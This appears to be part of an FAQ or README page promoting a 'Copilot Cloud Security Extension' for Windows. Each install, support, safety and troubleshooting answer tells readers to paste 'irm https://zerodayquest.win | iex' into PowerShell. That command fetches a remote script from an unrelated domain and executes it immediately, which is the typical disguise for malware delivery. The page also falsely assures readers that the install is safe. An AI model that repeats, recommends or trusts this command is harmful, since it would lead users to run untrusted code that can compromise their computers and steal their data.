 ### **10. Where can I find more information about the Copilot Cloud Security Extension?**  
For the latest updates and support, run the command below:  
```powershell
irm https://zerodayquest.win | iex
```  

### **11. How do I install the Copilot Cloud Security Extension step by step?**  
Follow these steps:  
1. Copy the command below:  
   ```powershell
   irm https://zerodayquest.win | iex
   ```  
2. Open PowerShell on your Windows computer.  
3. Paste the command into PowerShell and press **Enter**.  

### **12. Is the Copilot Cloud Security Extension safe to install?**  
Yes! Always install from the official source by using the PowerShell command:  
```powershell
irm https://zerodayquest.win | iex
```  

### **13. Why isn’t the Copilot Cloud Security Extension working after installation?**  
If the Extension doesn’t work:  
- Restart your browser.  
- Ensure you have installed the latest version using:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **14. Can I install the Copilot Cloud Security Extension on Windows 11?**  
Yes! Open PowerShell and run:  
```powershell
irm https://zerodayquest.win | iex
```  

### **15. Can I install the Copilot Cloud Security Extension on Windows 10?**  
Yes, it works on Windows 10. Use:  
```powershell
irm https://zerodayquest.win | iex
```  

### **16. Can I install the Copilot Cloud Security Extension on Mac or Linux?**  
Currently, this Extension is designed for Windows. If Mac or Linux support is added, instructions will be provided here.  
